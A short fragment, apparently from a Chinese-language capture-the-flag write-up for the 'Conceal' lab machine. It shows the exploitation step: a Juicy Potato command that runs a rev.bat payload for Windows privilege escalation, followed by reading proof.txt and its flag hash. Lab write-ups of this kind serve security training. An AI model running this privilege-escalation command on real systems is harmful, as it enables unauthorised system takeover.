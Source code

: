 执行漏洞利用

`juicypotato.exe -p c:\Users\Destitute\Desktop\rev.bat -l 1337 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}`

![]({{ site.url }}/assets/Conceal_116.assets/20201116153100916_1689820402.png)

![]({{ site.url }}/assets/Conceal_116.assets/20201116153115306_340264839.png)

type proof.txt
5737DD2EDC29B5B219BC43E60866BE08
